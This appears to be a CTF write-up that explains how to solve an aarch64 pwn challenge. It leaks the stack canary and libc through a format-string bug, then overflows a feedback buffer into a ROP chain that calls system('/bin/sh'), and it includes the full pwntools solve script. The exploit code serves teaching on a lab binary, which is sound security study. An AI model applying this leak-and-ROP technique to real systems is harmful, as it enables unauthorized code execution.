 ![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/821f9720-c70c-4f8e-b171-361268854f69)

This was the first time I faced a challenge that was using aarch64 architecture. Unfortunately, I wasn't able to solve this during the CTF but I read the writeups and was able to try it myself.

NOTE : The solve script is the official writeup from the author. This is just my attempt at explaining how to solve this challenge

To be able solve this challenge, we first must set up the environment for the challenge.

## Setup

For debugging, we can use 

```
gdb-multiarch: sudo apt-get install gdb-multiarch
```

To run the binary, we need to install

```
qemu: sudo apt-get install qemu-user-static
libs: sudo apt-get install libc6-arm64-cross installs to /usr/aarch64-linux-gnu/
Running the binary
```

Next, we need to extract the libc from the Dockerfile.

```
docker run -v "`pwd`:/chal" -it <HASH> bash
```

Replace <HASH> with the hash value from the Dockerfile and it should set you up in the environment and mount files in your current directory into the /chal folder. Next, go into the chal folder and run `ldd ./chal` to look for the libc. After locating it, now you must run `cp /lib/x86_64-linux-gnu/<YOUR_LIBC> .` and copy the libc to the current directory. Use the command `exit` to leave the docker instance

### Debugging

```
qemu-aarch64-static -g 1234 ./chal
```

Run this command and pass in the -g flag which enables debugging mode

```
$gdb-multiarch
file chal
target remote :1234
```

Now, we will connect to our remote debugging session at port 1234


## Initial Analysis

```
└─$ checksec --file=chal         
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   108 Symbols       No    0               2               chal
```

Stack Canary and NX has been enabled

<details>
<summary>get_address()</summary>
  
```c
void get_address(void)

{
  int iVar1;
  char acStack_30 [40];
  long local_8;
  
  local_8 = ___stack_chk_guard;
  printf("\tCould we have an address to ship said appendage? ",0);
  __isoc99_scanf(&DAT_00400ea0,acStack_30);
  printf("\nThanks, we will ship to: ");
  printf(acStack_30);
  iVar1 = putchar(10);
  clear_buffer(iVar1);
  if (local_8 - ___stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,local_8 - ___stack_chk_guard);
  }
  return;
}
```

</details>

<details>
<summary>feedback()</summary>
  
```c
void feedback(void)

{
  char buff [104];
  long local_8;
  
  local_8 = ___stack_chk_guard;
  puts("Care to leave some feedback?!");
  fgets(buff,256,_stdin);
  puts("Thanks!");
  if (local_8 - ___stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,local_8 - ___stack_chk_guard);
  }
  return;
}
```

</details>

From the results of the decompilation, it is clear that we need to leak the stack canary using the format string vulnerability and overflow the feedback function into a ret2libc 

## Exploitation

So after entering the %p format, we found out that we can get a canary leak at %19$p and a libc leak at %21$p

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/a1aca2b8-af69-439a-bd8d-1c3371a8dd02)

Using gdb to inspect the memory

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/97707e63-a6c0-41cf-8cee-c3be236d0d34)

We found that the leak is located inside __libc_start_main at offset 152. We can easily calculate the libc address using

```py
libc_start_main = libc_start_main_leak - 152
libc.address = libc_start_main - libc.symbols['__libc_start_main']
```

## ROP

Before we go into the ROP, we need to first understand the registers in aarch64.

### Registers

x0 to x7 are used to pass arguments, similar to rdi, rsi and rdx
x29 is similar to rbp
x30 is stores the return address

### Function Prologue, Epilogue and Stack Layout

For this part, you can read this [writeup](https://d0ublew.github.io/writeups/imaginaryctf-2023/pwn/generic-rop-challenge/index.html)

Now, we need to look for suitable gadgets that can pass in "/bin/sh" into the x0 register and call system()

```
0x00000000004008f4 # 0x00000000004008f4 : ldr x19, [sp, #0x10] ; ldp x29, x30, [sp], #0x20 ; ret
0x0000000000400910 # 0x0000000000400910 : mov x2, sp ; ldp x29, x30, [sp], #0x10 ; ret
0x000000000040091c : ldr x0, [x2, #0x10] ; ldp x29, x30, [sp], #0x10 ; ret
```

Fortunately for us, there gadgets are available which lets us mov a value we specify into x2, then load the value from x2 (at a offset of 0x10) into x0

```py
payload = flat([
    'a' * 104,
    canary,
    'b' * 8,    #x29
    mov_x2_sp,  #x30
    'c' * 8,
    canary,
    'd' * 8,    #x2     #x29
    ldr_x19,            #x30
    binsh,
    ldr_x0_x2,
    'e' * 24,
    libc.symbols['system']
])
```

This is what our payload will look like

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/e9800280-2260-4923-88f8-8450d01f0d8f)

First, we will overflow with the canary, b*8 for x29 and mov_x2_sp for x30. So when main returns, it will return to mov_x2_sp and increment $sp by 32, so the $sp will now point to dddddddd

`mov_x2_sp = 0x0000000000400910 # 0x0000000000400910 : mov x2, sp ; ldp x29, x30, [sp], #0x10 ; ret`

Since $sp point to dddddddd, it will be mov into x2 so x2 = dddddddd, then it will load dddddddd and ldr_x19 into x29, x30 respectively. Then $sp will increment by 16 and will now point to binsh

`ldr_x19 = 0x00000000004008f4 # 0x00000000004008f4 : ldr x19, [sp, #0x10] ; ldp x29, x30, [sp], #0x20 ; ret`

Since $sp point to binsh, it will load sp + 16 into x19, so now x19 will point to eeeeeeee. Then, it will load binsh and ldr_x0_x2 into x29, x30 respectively. Then $sp will increment by 32 and will now point to the last 8 eeeeeeee

`ldr_x0_x2 = 0x000000000040091c # 0x000000000040091c : ldr x0, [x2, #0x10] ; ldp x29, x30, [sp], #0x10 ; ret`

Since x2 is pointing to dddddddd, it will load dddddddd + 16, which is binsh into x0. Then, it will load eeeeeeee and libc.symbol['system'] into x29, x30 respectively. Then return to system because its in x30

## Official Solve Script

```py
from pwn import *

# context.terminal = ['tmux', 'split-window', '-h']

elf = context.binary = ELF('chal')
libc = ELF('libc.so.6')
ld = ELF('ld-linux-aarch64.so.1')

p = process('qemu-aarch64 -g 1234 chal'.split())

# p = process('qemu-aarch64 chal'.split())

# p = remote('localhost', 1234)

p.sendlineafter(b'2. Legs\n', b'1')
p.sendlineafter(b'of?\n', b'1337')
p.sendlineafter(b'appendage? ', b'%13$p%21$p%19$p')

p.recv()
leaks = p.recv().split(b'0x')
# main is at the 23rd offset
main_leak = leaks[1]
main = int(main_leak, 16)
# libc_start_main + 152 is at the 21st offset MAKE SURE TO SUBTRACT 152 FROM THE LEAK
libc_start_main_leak = leaks[2]
libc_start_main = int(libc_start_main_leak, 16) - 152

canaryleak = leaks[3].split(b'\n')[0]
canary = int(canaryleak, 16)

print(hex(libc.symbols['__libc_start_main']))
libc.address = libc_start_main - libc.symbols['__libc_start_main']
print(leaks)
print(hex(canary))
print(hex(libc.address))

ldr_x19 = 0x00000000004008f4 # 0x00000000004008f4 : ldr x19, [sp, #0x10] ; ldp x29, x30, [sp], #0x20 ; ret
binsh = libc.search(b'/bin/sh').__next__()
mov_x2_sp = 0x0000000000400910 # 0x0000000000400910 : mov x2, sp ; ldp x29, x30, [sp], #0x10 ; ret
ldr_x0_x2 = 0x000000000040091c # 0x000000000040091c : ldr x0, [x2, #0x10] ; ldp x29, x30, [sp], #0x10 ; ret
payload = flat([
    'a' * 104,
    canary,
    'b' * 8,    #x29
    mov_x2_sp,  #x30
    'c' * 8,
    canary,
    'd' * 8,    #x2     #x29
    ldr_x19,            #x30
    binsh,
    ldr_x0_x2,
    'e' * 24,
    libc.symbols['system']
])

p.sendline(payload)
p.interactive()
```
